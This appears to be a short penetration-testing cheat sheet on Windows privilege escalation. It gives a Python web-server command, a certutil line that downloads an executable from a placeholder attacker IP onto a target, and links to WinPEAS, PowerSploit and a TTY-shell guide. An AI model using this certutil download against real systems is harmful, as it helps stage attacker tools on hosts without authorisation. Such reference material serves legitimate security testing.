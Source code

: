 ```yaml
---
layout: default
title: Windows Privilege Escalation
nav_order: 2
has_children: false
parent: Privilege Escalation
grand_parent: Pentesting
---
```


##  Windows Privilege Escalation :

### Simple Web Server
```bash
sudo python3 -m http.server
```

### Download file

```powershell
certutil -urlcache -f http://<YOUR_IP>/<YOUR_EXE> <DESTINATION>
```

### WinPeas

Will automate the privilege escalation detection: 
- [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](  https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

### TTY Shell

- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)